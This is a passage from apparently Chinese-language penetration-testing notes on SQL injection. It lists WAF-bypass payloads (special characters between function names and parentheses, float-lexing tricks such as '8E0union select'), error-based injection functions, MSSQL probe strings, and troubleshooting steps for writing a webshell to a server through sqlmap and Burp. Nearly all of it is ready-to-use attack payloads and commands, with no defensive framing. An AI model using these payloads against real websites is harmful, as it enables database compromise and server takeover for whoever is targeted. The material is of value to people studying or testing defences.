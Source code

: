 函数分隔符对基于正则表达式的WAF，我们猜测安全工程师写WAF规则时，可能不知道函数名与左括号之间可以存在特殊字符，或者遗漏可以存在特殊字符。例如匹配函数”concat()”的规则写法，“concat(”或者”concats*(”，就没有考虑到一些特殊字符

~~~
concat%2520(

concat/**/(

concat%250c(

concat%25a0(
~~~

###### 6.浮点数词法解析

利用MySQL解析浮点数的特点，正则表达式无法匹配出单词union，但是MySQL词法解析成功解析出浮点数、sql关键字union

~~~
select * from users where id=8E0union select 1,2,3,4,5,6,7,8,9,0

select * from users where id=8.0union select 1,2,3,4,5,6,7,8,9,0
~~~

###### 7.报错注入

Error-based的SQL注入函数非常容易被忽略，导致WAF规则过滤不完整。常见的函数

~~~
updatexml(1, concat(0x5d,md5(3)),1);
GeometryCollection((select*from(select*from(select@@version)f)x))
polygon((select*from(select name_const(version(),1))x))
linestring()
multipoint()
multilinestring()
multipolygon()
~~~

### 数据库种类

##### MSSQL注入

这里只要测试下面语句成功执行，那么放进sqlmap跑就行了

~~~sql
查询版本
1' and @@version>0--       

查询权限
1' and user>0--  
~~~



~~~
如果上传不成功，有三种原因
第一是mysql高版本的安全模式，secure_file_priv的值为null。 
第二种是secure_file_priv指定了某个目录才可以上传，根目录不允许上传，那么可以尝试往upload目录上传
第三种是secure_file_priv的值为空或者指定了某个目录，但是上传后的文件为空，没有内容写进去。那么可能是limit的前面语句为False，导致limit后面的语句没有执行。加上 or 1=1即可

    第一种情况：进入--sql-shell
    show global variables like '%secure%';
    当secure_file_priv的值为null ，表示限制mysqld 不允许导入|导出，那就无法写入马

    第二种情况：
    往upload等其他目录上传，不要往根目录上传

    第三种情况：
    如果secure_file_priv的值为空也写不进去，那就尝试手动写入，使用--proxy "http://127.0.0.1:8080"，burp抓到包后，手动写入。limit语句前面加上or '1'='1'
~~~